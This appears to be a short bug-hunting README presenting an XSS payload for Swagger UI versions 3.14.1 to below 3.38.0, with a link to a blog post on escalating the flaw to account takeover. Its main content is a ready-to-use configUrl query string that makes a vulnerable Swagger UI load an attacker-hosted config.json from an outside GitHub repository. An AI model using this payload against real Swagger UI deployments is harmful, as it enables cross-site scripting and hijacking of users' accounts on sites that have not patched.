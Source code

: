 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`
  
### `configUrl Payload`

`?configUrl=https://raw.githubusercontent.com/0x2458bughunt/SwagXSS/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
